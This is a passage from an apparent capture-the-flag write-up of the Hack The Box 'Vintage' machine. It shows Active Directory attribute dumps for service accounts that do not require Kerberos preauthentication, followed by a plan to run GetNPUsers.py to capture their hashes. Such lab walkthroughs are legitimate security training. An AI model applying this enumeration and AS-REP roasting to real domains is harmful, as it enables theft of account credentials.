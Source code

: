 ```bash
userAccountControl                : NORMAL_ACCOUNT [4260352]
                                    DONT_EXPIRE_PASSWORD
                                    DONT_REQ_PREAUTH
badPwdCount                       : 0
badPasswordTime                   : 07/06/2024 08:28:03 (10 months, 17 days ago)
lastLogoff                        : 0
lastLogon                         : 24/04/2025 21:54:44 (today)
pwdLastSet                        : 06/06/2024 13:45:27 (10 months, 18 days ago)
primaryGroupID                    : 513
objectSid                         : S-1-5-21-4024337825-2033394866-2055507597-1135
sAMAccountName                    : svc_ldap
sAMAccountType                    : SAM_USER_OBJECT
objectCategory                    : CN=Person,CN=Schema,CN=Configuration,DC=vintage,DC=htb
msDS-SupportedEncryptionTypes     : 

cn                                : svc_sql
distinguishedName                 : CN=svc_sql,OU=Pre-Migration,DC=vintage,DC=htb
memberOf                          : CN=ServiceAccounts,OU=Pre-Migration,DC=vintage,DC=htb
name                              : svc_sql
objectGUID                        : {3fb41501-6742-4258-bfbe-602c3a8aa543}
userAccountControl                : NORMAL_ACCOUNT [4260352]
                                    DONT_EXPIRE_PASSWORD
                                    DONT_REQ_PREAUTH
badPwdCount                       : 0
badPasswordTime                   : 07/06/2024 08:28:03 (10 months, 17 days ago)
lastLogoff                        : 0
lastLogon                         : 24/04/2025 21:54:44 (today)
pwdLastSet                        : 24/04/2025 22:12:08 (today)
primaryGroupID                    : 513
objectSid                         : S-1-5-21-4024337825-2033394866-2055507597-1134
sAMAccountName                    : svc_sql
sAMAccountType                    : SAM_USER_OBJECT
objectCategory                    : CN=Person,CN=Schema,CN=Configuration,DC=vintage,DC=htb
msDS-SupportedEncryptionTypes     :
```

Lets run GetNPUsers.py for grab kerberoast hash

![alt text](../assets/images/vintage15.png)